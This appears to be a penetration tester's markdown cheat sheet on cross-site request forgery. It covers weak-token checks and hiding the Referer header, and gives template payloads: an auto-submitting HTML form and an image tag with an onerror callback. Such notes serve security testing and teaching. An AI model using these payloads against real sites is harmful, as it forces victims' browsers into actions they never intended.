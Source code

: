 # CSRF
## Quick Wins
- Unused / Unchecked CSRF token
	- Change HTTP Request method
- Same / Guessable CSRF token (Using username / UID etc.)

## Dropping Headers
**Useful for making sure headers are not sent**
### Referrer Header
**Changing page location to include intended path**
`Referrer-Policy: unsafe-url`
`<meta name="referrer" content="no-referrer">`


## Delivery Methods
- Forms :
**Note Multiple form requests must be displaced with setTimeout. **
**If hosting own web server, use Jquery**
```html
<form id='exploit' action='<URL>' method='<METHOD>'>
<input name="<NAME>" value="<VALUE>" /> # For standard values
<textarea name="<NAME>"><STUFF></textarea> # For URL encoded values (%0d%0a, etc)
</input>

<script>
document.getElementById('exploit').submit();
</script>
```

- Images:
**Note Images only support GET only**
```html
<img src=<URL> onerror=<CALLBACK> />
```